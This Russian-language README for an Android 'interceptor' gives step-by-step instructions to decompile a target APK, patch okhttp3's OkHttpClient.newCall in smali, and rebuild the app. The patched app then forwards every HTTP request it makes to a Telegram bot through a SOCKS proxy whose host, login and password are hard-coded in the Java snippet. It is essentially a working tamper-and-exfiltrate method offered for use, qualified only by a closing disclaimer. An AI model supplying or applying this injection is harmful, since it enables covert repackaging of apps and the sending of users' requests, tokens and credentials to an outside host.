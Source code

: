 #### Основной принцип работы перехватчика.

**Инжекция** вызова статичного метода `send` в метод `newCall` библиотеки `okhttp3` , а именно класса `okhttp3.OkHttpClient` ,путем декомпиляции **apk** файла приложения-цели и правки его **Dalvik** байт-кода (**.smali** файлов).  

#### Подготовка.

Перехватчик необходимо пересобрать в Android Studio под себя. В статичном методе `send` класса `InterceptMe` необходимо указать `botKey` вашего бота, `chatId`  чата куда подключен ваш бот (куда будут пересылаться запросы), и при необходимости поправить параметры `Proxy`. 

```java
public static void send(Request request) {
    try {
        //!!!Please modify this vars!!!
        int chatId = 0;
        String botKey = null;
        if (chatId==0 || botKey==null)
            return;
        //enter your telegram bot key
        Telegram telegram = new Telegram(botKey);
        //24.05.2020 this proxy is ok
        telegram.setProxyParams(Proxy.Type.SOCKS, "orbtl.s5.opennetwork.cc", 999, "369389927", "ElzXFZlC");
```

Для инжекции перехватчика необходимо:

1. Скачать [BatchApkTool](http://bursoft-portable.blogspot.com/2018/10/batch-apktool-376-donate.html) . Эта утилита позволит вам декомпилировать apk файлы. 

2. Собрать перехватчик. В Android Studio собрать apk файл перехватчика (*Build -> Build Bundle(s)/APK(s)->Buld APK(s)*)

3. Переместить собранный файл перехватчика в папку `BatchApkTool\_INPUT_APK` 

4. Переместить apk файл приложения-цели в эту же папку (`BatchApkTool\_INPUT_APK` )

5. Запустить `BatchApkTool.exe` и выбрать файл APK (на клавиатуре набрать 81 и Enter) перехватчика

6. Декомпилировать перехватчик (набрать 1 и Enter)

7. Выбрать apk файл приложения-цели и декомпилировать его (см. 5-6 пункты)

8. Открыть папку `BatchApkTool\_INPUT_APK`, найти в ней папку с декомпилированным перехватчиком

9. Найти файлы :

   - `InterceptMe.smali`
   - `NetworkTask$1.smali`
   - `NetworkTask.smali`
   - `Telegram.smali`

   Скорее всего они будут лежать примерно по такому пути: `BatchApkTool\_INPUT_APK\app-debug\smali_classes2\com\heavy87\InterceptMe`

10. Скопировать целиком папку `com` вместе с ее подпапками `\heavy87\InterceptMe` в декомпилированное приложение (тоже в папке `BatchApkTool\_INPUT_APK`) в самую последнюю папку smali. В декомпилированном приложении может быть несколько папок smali (например smali,smali_classes2,smali_classes3), это связано с тем, что есть [ограничение](https://developer.android.com/studio/build/multidex) на количество функций в dex-файлах (в декомплированном виде это перечисленные выше папки). Соответственно, если вы положите файлы перехватчика в "не последнюю" папку, то есть шанс, что при компиляции приложения вы получите ошибку. Для примера, структура приложения должна быть такой: 

    - assets
    - build
    - kotlin
    - lib
    - META-INF
    - ....
    - smali
    - smali_classes2
    - smali_classes3
    - smali_classes4
      - ...
      - com
        - ...
        - heavy87
          - ...
          - InterceptMe
            - `InterceptMe.smali`
            - `NetworkTask$1.smali`
            - `NetworkTask.smali`
            - `Telegram.smali`

11. Найти библиотеку okhttp3. Это будет папка внутри smali папок. 

12. Найти файл `OkHttpClient.smali` и открыть его редактором (например Sublime Text)

13. Найти в нем строку с методом:

    ```smali
    .method public newCall(Lokhttp3/Request;)Lokhttp3/Call;
    ```

    Это и будет метод, куда мы будем инжектировать перехватчик

14. Изменить реализацию метода на такую:

    ```
    .method public newCall(Lokhttp3/Request;)Lokhttp3/Call;
        .locals 1
    
        const/4 v0, 0x0
    
        invoke-static {p1}, Lcom/heavy87/InterceptMe/InterceptMe;->send(Lokhttp3/Request;)V
    
        invoke-static {p0, p1, v0}, Lokhttp3/RealCall;->newRealCall(Lokhttp3/OkHttpClient;Lokhttp3/Request;Z)Lokhttp3/RealCall;
    
        move-result-object p1
    
        return-object p1
    .end method
    ```

    То есть просто нужно добавить строку:

    ```
    invoke-static {p1}, Lcom/heavy87/InterceptMe/InterceptMe;->send(Lokhttp3/Request;)V
    ```

    Строку добавить нужно именно в указанном месте.

    (Не забудьте сохранить файл!)

15. Пересоберите приложение-цель. Выберите в BatchApkTool apk файл вашего приложения (81 Enter), и рекомпилируйюте apk (3 Enter)

16. Установите приложение рекомпилированный apk файл из папки `BatchApkTool\_OUT_APK` на телефон. 

    #### Внимание!

    Помните, что нужно в Telegram создать своего бота через бота [t.me/botFather](http://t.me/BotFather) , и добавить его в созданный вами чат. Узнать chatId можно запросив обновления у бота через его API: https://stackoverflow.com/questions/32423837/telegram-bot-how-to-get-a-group-chat-id 

    Если после правки `OkHttpClient.smali` у вас не собирается приложение, то переместите его в самую последнюю smali папку по тому же внутреннему пути, то есть создав внутри папку `okhttp3` . Прочтите пункт 10, и вы поймете почему надо так.

    **Используйте данный перехватчик только в личных целях. Пожалуйста, не вредите людям и компаниям. Все лежит на вашей совести. Я снимаю с себя ответственность за использование этого перехватчика. Трижды подумайте перед тем, как им пользоваться.**

    **Помните, что в некоторых случаях изменение кода приложения может преследоваться законом!**

    

    


